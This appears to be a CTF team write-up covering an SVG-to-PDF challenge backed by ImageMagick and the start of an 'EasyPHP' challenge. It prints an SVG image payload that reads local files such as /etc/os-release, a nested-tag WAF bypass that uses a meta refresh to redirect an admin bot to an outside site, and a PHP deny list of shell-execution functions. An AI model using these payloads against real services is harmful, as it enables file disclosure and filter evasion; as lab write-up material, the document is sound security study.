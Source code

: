 The title of `pdf` format is `magick-...`, so we can infer the backend will be using Imagemagick. Converting SVG in Imagemagick can lead to [local file inclusion](https://blog.bushwhackers.ru/googlectf-2019-gphotos-writeup/#imagemagickexploitation) by specifying href to `file:///etc/hosts`.

```
<image transform="scale(0.7,0.3)" x="-300" y="-400" width="1242" height="2208" href="file:///etc/os-release" />
```
The SVG support [some useful attributes](https://developer.mozilla.org/en-US/docs/Web/SVG/Element/image). They can be used to show more file content.

Read content in `/flag` we have:

```
Good job!
Now what's the next step?
```

So we probably need RCE or read other file. The webserver is using Python. We can guess the source code path `/app/app.py`, `/app/main.py`, `/app/server.py`, `/var/www/...` . It's at `/app/app.py`. (I'm not sure if it can be infered from other files.)

![](https://i.imgur.com/9t2MdLt.png)

First, `src|proc|env|meta` will be replaced. Next, there is a secret API `/SUp3r_S3cret_URL/0Nly_4dM1n_Kn0ws`. Visiting this we will see a XSS challenge page asking us to pop `alert(1)`. After asking the admin in IRC he/she can confirm it's part of this challenge.

But we're too lazy to find a XSS in this domain. Wait, can we just pop an alert window in our own domain? It turns out it's YES. In the end we just use meta to redirect admin to our website and pop alert window. Then we get the juicy flag. The WAF can be easily bypassed.

```
[
foo" />
<mmetaeta http-equiv="refresh" content="0;url=https://lab.bookgin.tw/test/alert.html" />
<image xlink:href="bar
]
```

Flag: `flag{5Vg_1s_Pow3rFu1_y3T_D4n93r0u5_eba66e10}`

### EasyPHP

Solved by [kaibro](https://twitter.com/KAIKAIBRO), written by bookgin.

```
Disable functions:

set_time_limit,ini_set,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,mail,putenv,error_log,dl

open_basedir:

/var/www/html

unix_socket:

/var/run/php-fpm.sock
```
